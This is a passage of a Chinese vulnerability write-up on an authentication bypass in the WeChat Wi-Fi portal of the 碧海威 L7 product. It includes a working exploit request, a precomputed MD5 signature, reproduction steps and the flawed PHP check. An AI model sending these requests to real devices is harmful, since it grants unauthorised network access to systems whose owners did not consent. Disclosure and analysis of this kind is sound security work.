 微信连 Wi-Fi 功能中，存在身份验证绕过漏洞，可通过直接发送 GET 请求传递参数，将任意用户添加进认证规则中。

### 漏洞影响

碧海威 L7 产品

### 漏洞利用

请求如下：

```http
GET   {{BaseUrl}}/portal/wechat/bigwifi.php?
      user_id=aaa
      &time_stamp=bbb
      &sign=ccc
```

上述请求中：

- `user_id` 为要添加的用户 ID
- `time_stamp` 为当前时间戳，但实际可填任意值
- `sign` 为 MD5 签名，计算方法为 `md5(time_stamp + user_id)`

复现步骤：

1. 首先访问 <https://{{BaseUrl}}/portal/wechat/bigwifi.php>，不传入参数，页面内容为 `false`
   ![](assets/2023-11-07-11-58-01.png)

2. 在地址后追加参数：`?user_id=abc&time_stamp=0&sign=e9113758e0ff881ab2770f05afde5552`
   ![](assets/2023-11-07-11-53-55.png)

3. 访问后页面内容由 `false` 变为 `success`，即添加成功
   ![](assets/2023-11-07-11-56-33.png)

### 漏洞分析

查看 `/www/portal/wechat/bigwifi.php` 源码，内容如下：

```php
<?php
$userIP = $_SERVER['REMOTE_ADDR'];
$user = $_GET['user_id'];
$timestamp = $_GET['time_stamp'];
$sign = $_GET['sign'];

$check = md5($timestamp.$user);
if ($check != $sign) {
        echo 'false';
        exit;
}

```